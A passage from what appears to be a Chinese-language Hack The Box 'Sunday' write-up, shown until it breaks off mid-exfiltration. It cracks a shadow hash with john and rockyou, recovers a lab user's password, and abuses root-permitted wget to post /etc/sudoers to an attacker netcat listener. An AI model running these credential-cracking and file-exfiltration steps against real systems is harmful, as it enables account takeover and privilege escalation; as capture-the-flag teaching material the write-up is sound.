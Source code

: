 
```

写两个文件，passwd和shadow
```
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/htb/Sunday]
└─# cat passwd   
sammy:x:101:10:sammy:/export/home/sammy:/bin/bash
                                                                                                                                                                                                                                            
┌──(root💀kali)-[~/htb/Sunday]
└─# cat shadow   
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::

```

用unshadow命令把上面两个文件合并成一个john可以识别的哈希文件
```
┌──(root💀kali)-[~/htb/Sunday]
└─# unshadow passwd shadow >pass.hash   
```

爆破这个hash文件
```
┌──(root💀kali)-[~/htb/Sunday]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt pass.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 128/128 AVX 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (sammy)
1g 0:00:01:11 DONE (2021-12-16 21:35) 0.01393g/s 2839p/s 2839c/s 2839C/s domonique1..chrystelle
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```


现在我们得到了sammy的ssh密码：```cooldude!```

# 提权

查看sammy的sudo特权
```
sunny@sunday:/home$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget

```

可以root身份使用wget，可以利用这个命令提权到root，步骤如下：

1. 在kali起一个监听，接收文件
>  nc -lnvp 80

2. 发送文件到kali
> sudo /usr/bin/wget --post-file=/etc/sudoers 10.10.14.6

3. 接收到文件sudoers
```
┌──(root💀kali)-[~/htb/Sunday]
└─# nc -lnvp 80                            
listening on [any] 80 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.76] 38814
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*